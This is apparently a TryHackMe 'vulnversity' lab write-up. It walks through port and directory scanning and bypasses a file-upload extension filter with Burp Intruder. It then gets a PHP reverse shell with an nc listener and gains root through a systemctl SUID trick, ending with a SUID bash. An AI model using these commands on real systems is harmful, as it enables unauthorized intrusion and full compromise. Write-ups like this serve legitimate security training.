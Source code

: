 <img src="../images/THMlogo.png" alt="tryhackme" width="200"/>

# vulnversity

## nmap
```
Port 21 ftp
Port 22 ssh
Port 139 Samba
Port 445 Samba
Port 3128 Squid
Port 3333 http
```
If have a look at the website now remembering to view from port 3333 for http, we find what appears to be a scool.collage or university type web design. There doesn't appear to anything on the site with all links going back to home page.Viewing page source doesn't give any hints that I can see from the comments section.
Onto gobuster.

## gobuster
```
/css
/font
/images
/index.html
/internal # provides upload facility with files stored held at /internal/uploads
/js
/server-status

```
After an initial run using directory-list-2.3-medium,txt we find an internal directory with a page that allows you to upload files. Running gobuster on this directory then provides us with the directory they are stored in.

Next I tried to see if it would upload specific files and or file types. I have been doing these rooms as part of my new hobby for about 2 months and had picked up some reverse scripts which I had kept in the Zim Desktop Wiki that has become my go to document set. I tried a .php file but that came back as "Extension not allowed."
Having done some work on the Burp Suite room, I decided run that next.
## burp suite
After some time doing these CTFs, I followed teh advice of people and use Firefox as my main browser when I complete them.We tested a standard file to see if it will upload. In this example we uploaded a text.php, in case we can use a reverse shell. This failed initially, so used burpe suite to do the following:

1. Intercept and attempt to upload a file.
2. Send the intercepted request to Intruder.
3. Clear payload positions and add by selecting the 'php' extension.
4. Select a payload set as a simple list (extensions_common.txt) and upload your payload list.
5. Start your attack.
6. Now filter your results to find the extension that the site accepted.
7. Now we know that .phtml is accepted amend the exploit.py to exploit.phtml.

## reverse shell
We will use the pentestmonkey reverse shell ensuring that as well as changing the extention to .phtml, that we update the IP address and Port of the attackers machine, in preperation for the netcat command.
```
nc -lnvp 9001
````
We now upload the file directly to the _/internal/upload_ folder and run it from the browser by clicking or by using a curl command.
```
curl ttp://10.10.74.180:3333/internal/uploads/php-reverse-shell.phtml
```
This now gives us access to a reverse shell. We can create a proper interactive shell by:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
We cannot access sudo permissions so let us look at SUID bit escalation:
```
find / -perm -4000 2>/dev/null
```
Using GTFObins we can see that there are two options for systemctl as SUID and sudo

```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
* TF=$(mktemp).service: we will create a new environment variable called “TF” (the name can be anything). Next, we will be using the mktemp command to create a new temporary file as a system service file.
* echo '[Service]: use the echo command to enter an input into the system. The single quote (‘) will allow us to enter into multi-line mode so we can enter the rest of the commands.
* Type=oneshot: declare the service as oneshot, which means that the service will execute the action and then immediately exit.
* ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output": when the service starts, use the sh command to execute (-c) everything inside the double quotes. This will send the results of the command “/root/root.txt” into a file named output in the tmp directory.
* [Install]: denotes the second part of our system services file.
* WantedBy=multi-user.target' > $TF: set the service to run once it reaches a certain runlevel. Multi-user.target is runlevel 3, while a functional Linux OS with GUI is runlevel 5. This dependency input and everything before is then redirected into the TF variable. The single quote after target is to denote the end of our echo entry.
* Systemctl link $TF: link the TF variable to systemctl so it can be executed by systemctl even though it’s in a different path from other service files.
* systemctl enable --now $TF: enable the service file stored in the TF variable immediately. It will reload the system manager to ensure the changes are in effect.

Then just read the root flag file:
```
cat /tmp/output
```

We can also escalate to a bash shell with a slighyt change of command.
```
eop=$(mktemp).service
echo '[Service]

ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $eop

/bin/systemctl link $eop

/bin/systemctl enable --now $eop
```
This changes the SUID of bash to allow us to use as root. We simply:
```bash -p
```
And now we have root permissions in the shell. Again use to read the flag file.
